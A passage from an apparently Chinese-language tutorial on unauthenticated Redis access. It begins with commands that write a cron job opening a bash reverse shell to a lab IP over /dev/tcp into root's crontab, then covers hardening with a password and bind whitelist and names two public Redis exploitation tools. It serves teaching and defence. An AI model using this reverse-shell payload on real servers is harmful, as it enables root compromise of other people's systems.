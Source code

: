 ```


set x "\r\n\r\n* * * * * /bin/bash -i > /dev/tcp/172.16.105.165/6666 0<&1 2>&1\r\n\r\n"

将计划任务放到定时任务下
config set dir /var/spool/cron/

设置以root用户的身份执行该任务
config set dbfilename root

保存 
save 
```

# 四、redis防御加固

## 4.1 设置访问密码，禁止未授权访问

```
#打开redis.conf配置文件，找到requirepass，然后消除注释，将密码写上
vi /etc/redis.conf
requirepass foobared

#重启服务后，发现可以登录，但是不能执行命令了
root@kali:~# redis-cli -h 172.16.105.192 -p 6379
172.16.105.192:6379> CONFIG GET dir
(error) NOAUTH Authentication required.
172.16.105.192:6379> 

#想要执行命令，就需要设置auth password
172.16.105.192:6379> auth foobared
OK
172.16.105.192:6379> CONFIG GET dir
1) "dir"
2) "/root"
172.16.105.192:6379> 
```

## 4.2 设置访问白名单

```
#打开redis.conf配置文件，找到bind关键字
vi /etc/redis.conf
# Examples:
#
# bind 192.168.1.100 10.0.0.1
# bind 127.0.0.1

把 #bind 127.0.0.1前面的注释#号去掉，然后把127.0.0.1改成你允许访问你的redis服务器的ip地址
```

# 五、redis攻击工具

1.https://github.com/n0b0dyCN/redis-rogue-server

2.https://github.com/Ridter/redis-rce